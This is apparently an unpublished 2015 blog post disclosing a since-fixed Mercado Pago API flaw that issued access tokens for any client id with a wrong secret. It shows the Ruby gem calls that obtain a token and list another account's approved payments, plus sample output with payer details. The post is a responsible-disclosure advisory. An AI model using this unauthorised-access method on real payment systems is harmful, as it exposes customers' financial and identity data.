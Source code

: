 ```yaml
---
layout: post
title: "Mercado Pago Security Hole"
date: 2015-07-14 23:29:00
categories: ["security"]
author: etagwerker
published: false
---
```


On April 17th we discovered a security vulnerability in the [Mercado Pago API](https://www.mercadopago.com.ar/developers/en/api-docs/). Before disclosing this information, we contacted [Mercado Libre](http://www.mercadolibre.com/) and sent them a detailed report of the security hole and how to reproduce it.

The vulnerability allowed anyone to get an access token without using the right secret for an account.

<!--more-->

You can see how the authentication process works on Mercado Pago over here: [https://www.mercadopago.com.ar/developers/en/api-docs/basics/authentication/](https://www.mercadopago.com.ar/developers/en/api-docs/basics/authentication/)

After 7 hours, Mercado Pago fixed the vulnerability in their production environment.

## How we reproduced the bug

This example uses Ruby 2.1.2 and the [mercadopago](https://rubygems.org/gems/mercadopago) gem.

    2.1.2 :001 > token = MercadoPago::Authentication.access_token("8872", "lalalala")

The first parameter is the client id (an account in Mercado Pago) and the second parameter is the secret (only the account holder should know this)

For client id we used `8872` which doesn't belong to us and for secret we used `lalalala` to show that it wasn't really *the right secret.*

With that information, we were able to acquire the token. With it you can access a lot of information associated with the payments in the account.

For example:

```ruby
2.1.2 :002 > response = MercadoPago::Collection.search(token["access_token"], status: :approved)
```

With this query, you could see all the approved transactions for an account **that didn't belong to you**.

For example:

```ruby
=> {"paging"=>{"total"=>98, "limit"=>30, "offset"=>0},
    "results"=>[
      {"collection"=>{"id"=>753859418, "site_id"=>"MLA",
       "date_created"=>"2014-03-13T16:58:20.000-04:00",
       "date_approved"=>"2014-03-13T17:00:38.000-04:00",
       "last_modified"=>"2014-03-13T17:00:38.000-04:00",
       "money_release_date"=>"2014-03-15T17:00:38.000-04:00",
       "operation_type"=>"regular_payment",
       "collector_id"=>16605960, "sponsor_id"=>nil,
       "payer"=>{
         "nickname"=>"XOMBULABSX",
         "first_name"=>"JON",
         "last_name"=>"SNOW",
         "phone"=>{"area_code"=>"291", "number"=>"123412", "extension"=>nil},
         "email"=>"security@ombulabs.com",
         "id"=>83110350,
         "identification"=>{"type"=>nil, "number"=>nil}},
         "external_reference"=>"1448",
         "merchant_order_id"=>11567450,
         "reason"=>"Premium package", "currency_id"=>"ARS",
         "transaction_amount"=>81, "total_paid_amount"=>81,
         "shipping_cost"=>0,
         "account_money_amount"=>0,
         "mercadopago_fee"=>4.85,
         "net_received_amount"=>76.15,
         "marketplace_fee"=>nil,
         "coupon_id"=>nil,
         "coupon_amount"=>nil,
         "coupon_fee"=>nil,
         "finance_fee"=>0,
         "status"=>"approved",
         "status_detail"=>"accredited",
         "status_code"=>"00",
         "released"=>"yes",
         "payment_type"=>"credit_card",
         "installments"=>1,
         "installment_amount"=>nil,
         "deferred_period"=>nil,
         "cardholder"=>{"name"=>"JON SNOW", "identification"=>{"type"=>"DNI", "number"=>"26000000"}},
         "statement_descriptor"=>"WWW.MERCADOPAGO.COM",
         "transaction_order_id"=>nil, "marketplace"=>"NONE", "tags"=>[],
         "notification_url"=>nil}},
      {"collection"=>
        {"id"=>756415807,
        "site_id"=>"MLA",
        "date_created"=>"2014-03-20T15:42:35.000-04:00",
        "date_approved"=>"2014-03-20T15:42:35.000-04:00",
        "last_modified"=>"2014-03-20T15:42:35.000-04:00",
        "money_release_date"=>"2014-03-22T15:42:35.000-04:00",
        "operation_type"=>"regular_payment",
        "collector_id"=>16605960,
        "sponsor_id"=>nil,
        "payer"=>{
          "nickname"=>"YOURNICKNAME",
          "first_name"=>"Matias",
          "last_name"=>"OMBU",
          "phone"=>{"area_code"=>"291", "number"=>"4000000", "extension"=>nil},
          "email"=>"hola@ombulabs.com",
          "id"=>18878708,
          "identification"=>{"type"=>nil, "number"=>nil}},
        "external_reference"=>"1457",
        "merchant_order_id"=>13031193,
        "reason"=>"Premium package",
        "currency_id"=>"ARS",
        "transaction_amount"=>81,
        "total_paid_amount"=>81,
        "shipping_cost"=>0,
        "account_money_amount"=>0,
        "mercadopago_fee"=>4.85,
        "net_received_amount"=>76.15,
        "marketplace_fee"=>nil,
        "coupon_id"=>nil,
        "coupon_amount"=>nil,
        "coupon_fee"=>nil, "finance_fee"=>0,
        "status"=>"approved",
        "status_detail"=>"accredited",
        "status_code"=>"00",
        "released"=>"yes",
        "payment_type"=>"credit_card",
        "installments"=>1,
        "installment_amount"=>nil,
        "deferred_period"=>nil,
        "cardholder"=>
          {"name"=>nil,
           "identification"=>{"type"=>nil, "number"=>nil}},
        "statement_descriptor"=>"WWW.MERCADOPAGO.COM",
        "transaction_order_id"=>nil,
        "marketplace"=>"NONE",
        "tags"=>[],
        "notification_url"=>nil}},
        ...
      }
```

*The sensitive information in this code snippet has been intentionally changed*

So, during the time that this vulnerability was live (at least 7 hours) an attacker could have used it to:

* Find information about all the payments that your account had received since you started using the service

* Find information about your clients, their DNI, name, phone number

All the attacker needed to exploit this vulnerability was a Mercado Pago account ID and some basic tech knowledge.

## How we discovered this bug

At [OmbuShop](http://www.ombushop.com), our integration tests use the Mercado Pago sandbox to check that the amount that a client has to pay is correct. I know that this isn't ideal (or is it?) but it's as real as it gets for our integration tests.

One of our tests checked that you couldn't get collections information with the wrong user credentials. When the test started failing in our continuous tests, we started digging around and found this security hole.

## What worries me

It's hard to understand how such a big payment processor never published information about this security hole. I would expect them to know if some information was accessed by people who didn't have access to it.

They could check their access logs and see who accessed their API using a secret that wasn't the right one. Then they could inform their customers of this problem and warn them about this situation.

Mercado Pago, a product of Mercado Libre ([$MELI](http://www.nasdaq.com/symbol/meli)) which is a publicly traded company, doesn't even have public versioning information of their API nor a continuous integration suite that would catch such an obvious vulnerability.

Maybe I am just used to the security reports published by Github about [their vulnerabilities](https://github.com/blog/1068-public-key-security-vulnerability-and-mitigation). Maybe Github is way more serious than Mercado Pago about privacy and online security.

I think that Mercado Pago needs to step up their game and be more transparent about their platform and user privacy.

A good place to start would be a better way to receive security vulnerability reports and disclosing information about their security problems.

Until today, they haven't disclosed any information about this security hole and it's very hard to find a way to report a security issue to them.
